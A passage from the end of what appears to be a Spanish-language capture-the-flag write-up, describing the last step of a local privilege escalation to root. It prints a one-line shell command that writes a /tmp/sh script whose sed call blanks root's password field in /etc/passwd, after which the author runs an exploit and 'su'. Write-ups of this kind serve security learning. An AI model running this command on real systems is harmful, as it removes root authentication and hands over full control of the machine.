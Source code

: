 Lo último que nos quedaría antes de ejecutar el exploit, es crear un script en `/tmp/` llamado `sh` que ejecute lo que queramos que nos permita escalar a root, en mi caso quitará la "x" del archivo `/etc/passwd` para que al ejecutar `su` pueda escalar sin necesidad de poner contraseña:

```css
echo '#!/bin/bash' > /tmp/sh && echo 'sed "s/root:x:/root::/g" -i /etc/passwd' >> /tmp/sh && chmod 777 /tmp/sh
```

y listo, ejecutamos el exploit y al hacerlo solo nos queda ejecutar `su` y seremos root.

### Root

![Root](images/buffered/root.png)

Gracias por leer ;)
